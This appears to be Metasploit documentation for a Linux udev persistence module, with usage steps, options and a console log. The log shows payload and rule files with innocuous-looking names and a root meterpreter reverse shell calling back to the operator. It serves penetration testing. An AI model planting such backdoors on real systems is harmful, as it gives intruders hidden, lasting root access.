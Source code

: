 This is a post module that performs a persistence installation on a Linux system using [udev](https://en.wikipedia.org/wiki/Udev).
The persistence execution with be triggered with root privileges everytime a network interface other than l0 comes up.

## Verification Steps

  1. Start msfconsole
  2. Obtain a session on the target machine
  3. `use exploit/linux/local/udev_persistence`
  4. `set session -1`
  5. `exploit`

## Module usage

```
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/udev_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/local/udev_persistence) > set session -1
session => -1
msf exploit(linux/local/udev_persistence) > exploit

[*] /usr/bin/udev-check-updates written
[*] /lib/udev/rules.d/99-update.rules written
msf exploit(linux/local/udev_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf exploit(linux/local/udev_persistence) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > 
```

## Options

### BACKDOOR_PATH

Specify the path of the file containing the udev rules. (Default: /lib/udev/rules.d/99-update.rules)

### PAYLOAD_PATH

Specify the name of the payload to execute upon persistence. (Default: /usr/bin/udev-check-updates)

